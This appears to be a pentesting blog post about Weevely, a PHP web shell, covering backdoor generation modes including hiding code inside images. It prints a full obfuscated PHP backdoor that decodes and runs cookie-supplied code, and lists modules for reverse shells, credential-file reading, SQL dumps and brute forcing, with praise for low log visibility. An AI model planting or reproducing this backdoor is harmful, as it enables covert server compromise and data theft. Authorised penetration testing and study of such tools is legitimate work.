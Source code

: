 ```yaml
---
date: 2015-02-19
title: Weevely
tags:
- backdoor
- remote command execution
see_also:
  -
    link: Introduction to pentesting
    url: /introduction-to-pentesting/
---
```

Weevely is a PHP command line web shell usually used as a backdoor while performing the post exploitation phase of a penetration test. 
By default in Kali Linux, the installed version 1.1 isn't supported anymore but version 3 is available on [GitHub](https://github.com/epinna/weevely3 "Weevely on GitHub").

Generate the backdoor:

`weevely generate.<mode> <password> <path>`

The password is optionnal but it's important to protect your customer from other users because an unwanted access can easily lead to a full access on the server with privileges escalation. There is three kinds of backdoor available but this functionnality seems to have been removed in version 3.

- **htaccess**: a single `.htaccess` file is created containing the malicious code and the right Apache directive so that all `.htaccess` files are considered as regular PHP script
- **img**: giving an existing image, Weevely will concatenate the binary datas and the malicious code, plus it also creates an `.htaccess` 
to tell Apache that the image should be considered as a regular PHP script (that means both files should be uploaded on the target server)
- **php**: this is the default, a single PHP script is generated

<!--more-->

Example:

![Weevely generate](/images/weevely-generate.png)

A `sessions` directory has also been created to log every command. 
No matter what creation mode you choosed the obfuscated generated PHP code looks like this:

```php
<?php
$ztqi = str_replace("h","","hshtrh_rhehphlhahche");
$hule="am9pbihhcnJhehrV9zbGhrljZSgkYSwkhrYhrygkYhrSktMykpKShrkpO2VjaG8gJzwvJhry4kay4nhrPic7fQ==";
$xhmv="PSdlcnRhr5JztlY2hvIhrCc8Jy4kay4nPihrc7ZXhrZhbChiYXNlNjRfZGVjbhr2RlKHBhryZWdfchrmVhrwbGFjZ";
$ezko="ShhcnJheSgnL1hrteXHc9XHNdLycsJy9chrcy8nKSwgYXJyYXkohrJyhrcshrJyhrsnKSwg";
$kyjf="JGM9J2NvdW50JzskYT0kX0NPT0tJRTtpZihyZXNldCgkYhrSk9PSdheicgJihrYgJGMoJGEpPjMpeyRr";
$tjbu = $ztqi("g", "", "basgeg6g4g_gdgegcgode");
$plri = $ztqi("y","","cyreyatye_yfuynycytyiyon");
$pigj = $plri('', $tjbu($ztqi("hr", "", $kyjf.$xhmv.$ezko.$hule))); $pigj();
?>
```

There is different ways to inject the backdoor on the target server: file upload, SQL injection and so on... 
Once you have infected your target, you can connect to the client with the password you choosed:

![Weevely connect](/images/weevely-connect.png)

Running `:help `will display the list of all modules available or the detailed usage informations of the given module.

| Command              | Description |
| -------------------- | ------------- |
| :audit.systemfiles   | Find wrong system files permissions |
| :audit.phpconf       | Check php security configurations |
| :audit.mapwebfiles   | Crawl and enumerate web folders files permissions |
| :audit.userfiles     | Guess files with wrong permissions in users home folders |
| :audit.etcpasswd     | Enumerate users and /etc/passwd content |
| :shell.sh            | Execute system shell command |
| :shell.php           | Execute PHP statement |
| :system.info         | Collect system informations |
| :backdoor.reversetcp | Send reverse TCP shell |
| :backdoor.tcp        | Open a shell on TCP port |
| :bruteforce.sqlusers | Bruteforce all SQL users |
| :bruteforce.sql      | Bruteforce SQL username |
| :file.edit           | Edit remote file |
| :file.mount          | Mount remote filesystem using HTTPfs |
| :file.webdownload    | Download web URL to remote filesystem |
| :file.touch          | Change file timestamps |
| :file.upload2web     | Upload binary/ascii file into remote web folders and guess corresponding url |
| :file.download       | Download binary/ascii files from the remote filesystem |
| :file.enum           | Enumerate remote paths |
| :file.read           | Read remote file |
| :file.upload         | Upload binary/ascii file into remote filesystem |
| :file.check          | Check remote files type, md5 and permission |
| :file.rm             | Remove remote files and folders |
| :file.ls             | List directory contents |
| :sql.console         | Run SQL console or execute single queries |
| :sql.dump            | Get SQL database dump |
| :net.phpproxy        | Install remote PHP proxy |
| :net.ifaces          | Print interfaces addresses |
| :net.scan            | Port scan open TCP ports |
| :net.proxy           | Install and run Proxy to tunnel traffic through target |
| :find.suidsgid       | Find files with superuser flags |
| :find.name           | Find files with matching name |
| :find.perms          | Find files with write, read, execute permissions |

Another good point for Weevely is the verbosity, the remote agent is very low footprint. Below my Apache logs after running some commands:

![Weevely traces](/images/weevely-traces.png)

As you may notice the user-agent has also been randomized wich is usually a good idea...


## External resources

- [Introduction to pentesting]({{< ref "/posts/introduction-to-pentesting" >}})
